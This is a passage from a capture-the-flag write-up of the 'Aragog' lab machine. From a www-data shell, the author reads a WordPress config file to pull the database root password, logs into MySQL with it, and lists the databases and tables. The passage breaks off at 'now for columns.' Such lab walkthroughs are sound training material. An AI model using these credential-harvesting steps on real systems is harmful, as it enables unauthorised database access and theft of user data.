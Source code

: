 and seems that all the wordpress is in /usr/share/wordpress so let's get into it.

```bash
} elseif (file_exists("/etc/wordpress/config-default.php
```

according with this file all crendials are in file default.

```bash
www-data@Aragog:/usr/share/wordpress$  cat /etc/wordpress/config-default.php
<?php
define('DB_NAME', 'wordpress');
define('DB_USER', 'root');
define('DB_PASSWORD', 'mySecr3tPass');
```

we will use this pass that we found in mysql, because for hagrid and the others users did not work for me.

```bash
myseql -uroot -p
Enter password: mySecr3tPass

```

now we have to search for Dbs.
example.

```php
 MariaDB [(none)]> show databases;  
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| wordpress          |
```
now for tables.

```php
use wordpress  
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [wordpress]> show tables;
+-----------------------+
| Tables_in_wordpress   |
+-----------------------+
| wp_commentmeta        |
| wp_comments           |
| wp_links              |
| wp_options            |
| wp_postmeta           |
| wp_posts              |
| wp_term_relationships |
| wp_term_taxonomy      |
| wp_termmeta           |
| wp_terms              |
| wp_usermeta           |
| wp_users              |
| wp_wpfm_backup        |
+-----------------------+
```
now for columns.
